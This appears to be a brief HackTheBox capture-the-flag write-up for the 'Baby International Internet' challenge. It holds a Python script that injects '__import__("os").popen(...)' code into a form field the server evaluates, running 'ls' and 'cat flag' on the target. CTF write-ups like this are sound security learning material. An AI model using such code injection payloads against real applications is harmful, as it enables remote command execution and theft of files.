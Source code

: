 # HackTheBox Challenge Baby International Internet

tags: #python #deserialization 

```python

#!/usr/bin/python3 
    
import requests 

proxy = {
        'http': 'http://127.0.0.1:8080'
}

#data = {'ingredient': 'test', 'measurements': '1337'}
#data = {'ingredient': 'test', 'measurements': '__import__("os").popen("ls").read()'}
data = {'ingredient': 'test', 'measurements': '__import__("os").popen("cat flag").read()'}
addr = 'http://157.245.33.77:30357'
r = requests.post(addr, data=data, proxies=proxy)
    
print(r.content)

```

We learn from the /debug page that we can input 2 values.  The ingredient creates the name of the variable and then the measurements is the number or calculation that is calculated.  By manipulating the measurements to python code that can be executed.

